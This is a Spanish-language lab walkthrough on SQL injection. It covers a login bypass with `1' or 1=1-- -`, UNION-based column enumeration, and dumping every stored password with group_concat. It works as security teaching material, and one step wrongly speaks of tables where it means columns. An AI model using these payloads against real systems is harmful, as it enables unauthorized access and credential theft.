 Después de haber accedido mediante la condición lógica `1' or 1=1-- -`  como username, se puede ver la cookie desencriptada abajo.

Podemos dumpear las contraseñas mediante la UNION basada en SQL injection, solo necesitamos 2 cosas:

- El número de columnas en la consulta inyectada tiene que ser igual a la legítima.
- Los tipos de datos deben de corresponder con los de la tabla legitima.

Esto lo podemos saber si mandamos una consulta de la manera:

```sql
SELECT id, username FROM users WHERE username='" + username + "' AND password= '" + password + "'
```

Si no conocemos el número de columnas, primero tendremos que enumerar el número de columnas inyectando consultas de la manera:

```sql
1' UNION SELECT NULL -- -
```

Poniendo tantos NULL como tablas creamos que debe de haber.

Usando `'UNION SELECT 1,2-- -`  como username, coincidimos con el número de columnas de la consulta SQL original.

Y donde antes ponía ‘Logged in as admin’ ahora pone ‘Logged in as 2’.

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 8.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

Mediante el uso de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) la enumeración de tablas y columnas de una base de datos se hace más ameno debido a que ya no dan los payloads a usar para obtener dicha información.

Como sabemos que el nombre de la tabla es *users* y tenemos la columna *password*, podemos hacer:

```sql
' UNION SELECT 1, password FROM users-- -
```

Si hacemos uso de group_concat() podemos obtener todas las passwords a la vez.

```sql
' UNION SELECT 1, group_concat(password) FROM users-- -
```

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 9.png" alt="Untitled" onclick="openModal(this.src)" />
</div>
